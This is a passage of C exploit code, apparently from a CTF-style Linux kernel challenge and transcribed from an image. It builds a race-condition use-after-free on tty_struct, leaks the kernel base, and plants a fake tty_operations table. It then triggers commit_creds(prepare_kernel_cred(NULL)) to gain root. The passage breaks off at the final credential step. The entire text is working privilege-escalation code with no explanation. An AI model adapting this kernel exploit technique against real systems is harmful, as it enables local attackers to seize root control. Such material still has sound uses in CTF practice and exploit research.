 ```c
    puts("[*] constructing UAF on tty_struct...");

    pthread_create(&edit_uaf_thread, NULL, constructUAF, NULL);
    pthread_create(&add_fix_size_thread, NULL, fixSizeByAdd, NULL);

    sem_post(&evil_edit_sem);
    sleep(1);

    /**
     * fix notebook[0]->size.
     * Note that we need to sleep(1) there to wait for the `size` to be fixed.
    */
    sem_post(&evil_add_sem);
    sleep(1);

    /* leak kernel_base by tty_struct */
    puts("[*] leaking kernel_base by tty_struct");

    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    noteRead(0, orig_tty_struct_data);

    if (*(int*) orig_tty_struct_data != 0x5401) {
        errExit("failed to hit the tty_struct!");
    }

    tty_ops = orig_tty_struct_data[3];
    kernel_offset = ((tty_ops & 0xfff) == (PTY_UNIX98_OPS & 0xfff) 
                       ? (tty_ops - PTY_UNIX98_OPS) : tty_ops - PTM_UNIX98_OPS);
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct fake tty_ops */
    puts("[*] construct fake tty_operations...");

    fake_tty_ops.ioctl = kernel_offset + WORK_FOR_CPU_FN;
    noteAdd(1, 0x50, temp_page);
    noteEdit(1, sizeof(struct tty_operations), temp_page);
    noteWrite(1, &fake_tty_ops);

    /* get kernel addr of tty_struct and tty_ops by gift */
    puts("[*] leaking kernel heap addr by gift...");

    noteGift(&kernel_notebook);
    tty_struct_addr = kernel_notebook[0].ptr;
    fake_tty_ops_addr = kernel_notebook[1].ptr;

    printf("[+] tty_struct at 0x%lx\n", tty_struct_addr);
    printf("[+] fake_tty_ops at 0x%lx\n", fake_tty_ops_addr);

    /* prepare_kernel_cred(NULL) */
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = NULL;

    noteWrite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
```